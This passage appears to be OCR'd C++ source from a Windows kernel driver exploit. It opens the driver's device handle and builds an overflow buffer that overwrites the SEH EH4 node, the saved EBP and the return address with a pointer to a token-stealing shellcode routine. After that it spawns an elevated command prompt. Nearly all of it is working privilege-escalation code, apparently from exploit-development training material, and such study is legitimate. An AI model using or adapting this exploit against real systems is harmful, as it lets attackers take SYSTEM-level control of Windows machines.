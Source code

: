 ```c++
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        nullptr
    );

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
        return -1;
    } 

    printf("[+] Device opened successfully!\n");

    result = TriggerExploit(hDevice);
    if (result < 0) {
        printf("[-] Exploit failed: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] Device successfully exploited!\n");
    
    printf("[+] Cleaning up and closing handle...\n");
    CloseHandle(hDevice);

    printf("[+] Launching elevated command prompt...\n");
    system("cmd");

    return 0;
}

INT TriggerExploit(HANDLE hDevice) {

    PCHAR lpInBuffer    { nullptr };
    ULONG inBufferSize  { 0 };
    DWORD bytesReturned { 0 };
    DWORD lpShellcode   { 0 };

    // Allocate a buffer of the correct size to overflow into the 
    // return address.  Need to overflow the buffer, the SEH EH4 
    // Registration Node, the saved EBP, and finally the return
    // address.  Last 4 bytes will overwrite the return address.
    inBufferSize = BUFFER_SIZE + EH4_REGISTRATION_NODE_SIZE + 4 + 4;
    
    lpInBuffer = (PCHAR)HeapAlloc(GetProcessHeap(), 
                                  HEAP_ZERO_MEMORY, 
                                  inBufferSize);

    if (!lpInBuffer) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] Created buffer of size: %lu\n", inBufferSize);

    // Set buffer to be full of 'A's
    memset(lpInBuffer, 'A', inBufferSize);

    // Set the last 4 bytes to contain a pointer to the "shellcode" function
    lpShellcode = (DWORD)&TokenStealingPayloadWin7Generic;
    lpInBuffer[inBufferSize - 4] = (lpShellcode & 0x000000FF);
    lpInBuffer[inBufferSize - 3] = (lpShellcode & 0x0000FF00) >> 0x8;
    lpInBuffer[inBufferSize - 2] = (lpShellcode & 0x00FF0000) >> 0x10;
    lpInBuffer[inBufferSize - 1] = (lpShellcode & 0xFF000000) >> 0x18;

```